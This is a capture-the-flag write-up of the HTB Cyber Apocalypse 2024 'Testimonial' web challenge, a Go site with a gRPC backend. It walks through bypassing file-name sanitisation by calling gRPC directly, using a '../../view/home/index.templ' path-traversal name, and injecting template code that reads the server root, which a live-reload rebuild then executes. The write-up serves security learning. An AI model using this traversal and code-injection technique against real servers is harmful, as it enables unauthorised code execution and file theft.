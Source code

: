 ```yaml
---
title: "[web] Testimonial"
date: 2024-03-22T21:00:00+08:00
summary: HTB Cyber apocalypse 2024 - GRPC, reload and path traversal
draft: false
tags: [ "ctf", "web" ]
---
```

This challenge exposes a website on a port and a GRPC server on a different port. This tech stack was refreshing for a CTF, as the server was in Golang, which i did not see a lot in CTF.

The Website allows users to submit a testimonial, with 2 fields, content and name. When a user is adding a new testimonial on the website, a handler receives the name and content, and will call the GRPC service, that will in turn write the content of the testimonial to the file "public/testimonials/{customer}"

Uploading a testimonial creates a file, and we control both the name and the content of this file, which is quite promising.

The handler for creating testimonial does however sanitize the file name before calling the GRPC service:

```Golang
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

This mean we can't create directly an arbitrary file, however, the GRPC server is also accessible, so directly calling the GRPC server can allow us to create a file on the server, which we can test and validate using `grpc_cli` . The GRPC server does not implement reflection capabilities, but within the code -- that we can download -- we have the protofile, the following command:

```bash
grpc_cli call localhost:50045 SubmitTestimonial "customer:'test' testimonial:'test'" --protofiles=ptypes.protofile
```
creates a file test, with the content test in the public/testimonials folder.

*At this point, we can rewrite the code of the applciation, add a new handler that read all the file at the root, and call it a day, right?*

Wait, no so fast, the website is in Golang, which is compiled, luckily enough, the website is with the code source, but still, changing a source file will not do anything to the executable, we would need to recompile the binary.


Luckily for us, we have a development version of the website, and it's running using [air](https://github.com/cosmtrek/air), a live reload utility for golang developemnt. Checking the configuration of air, in the .air.toml file, we see the following line:

```
include_ext = ["tpl", "tmpl", "templ", "html"]
```

So air will recompile the binary, if any file with those extension is modified.

Another interesting fact, this website uses [templ](https://github.com/a-h/templ) to generate HTML content. templ is a HTML templating language for Go, it uses language that marries Golang and HTML and generates on build a go file, with a function that will return html content. It also allows to run go code as part of the generated result file. 

Looking at the templ file, we see that it's getting the testimonial to display on the home page from the following function:

```golang
func GetTestimonials() []string {
	fsys := os.DirFS("public/testimonials")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Exploit:
----

We want the website to load the content of the root directory where the flag is, to load the testimonials instead of the content of folder `public/testimonials`.

To achieve this, we can use the GRPC to rewrite the template of the home page, as it has a templ extension, the website will be rebuilt and the new code will be executed.

Let's make a copy of the template for the home page and replace the function `GetTestimonials` by the following;

```golang
func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Call the GPRC service to create a testimonial with name `../../view/home/index.templ`, for the content, let's use the copy of the template we just described, then website is then rebuilt and display the content of the file at the root of the server.

![terminal](img/flag.png)

And so we get the flag.
